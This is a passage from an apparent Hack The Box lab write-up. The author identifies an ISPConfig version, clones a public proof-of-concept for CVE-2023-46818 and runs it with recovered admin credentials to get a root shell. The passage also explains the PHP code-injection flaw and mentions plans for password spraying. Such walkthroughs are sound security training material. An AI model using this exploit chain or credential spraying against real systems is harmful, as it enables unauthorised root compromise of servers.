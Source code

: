 It works! (I need to start writing down all users and passwords on files to do password spraying)

After some searching I see the most important thing the version:
![[nocturnal14.png]]

I see this CVE that could be of use:
- https://nvd.nist.gov/vuln/detail/CVE-2023-46818

I will use this POC code:
- https://github.com/bipbopbup/CVE-2023-46818-python-exploit

I clone it and execute it:
```
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ git clone https://github.com/bipbopbup/CVE-2023-46818-python-exploit.git
Cloning into 'CVE-2023-46818-python-exploit'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 12 (delta 2), reused 1 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (12/12), 5.70 KiB | 5.70 MiB/s, done.
Resolving deltas: 100% (2/2), done.
                                                                                                                                                                                                                                            
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ cd CVE-2023-46818-python-exploit 
                                                                                                                                                                                                                                            
┌──(oriol㉿zero)-[~/htb/nocturnal/CVE-2023-46818-python-exploit]
└─$ python3 exploit.py http://localhost:8080/ admin slowmotionapocalypse             
[+] Target URL: http://localhost:8080/
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Injecting shell
[+] Launching shell

ispconfig-shell# whoami
root


ispconfig-shell#
```

And it works!

Looking at the github description it shows the details of the vulnerability:
User input passed through the "records" POST parameter to /admin/language_edit.php is not properly sanitized before being used to dynamically generate PHP code that will be executed by the application. This can be exploited by malicious administrator users to inject and execute arbitrary PHP code on the web server.




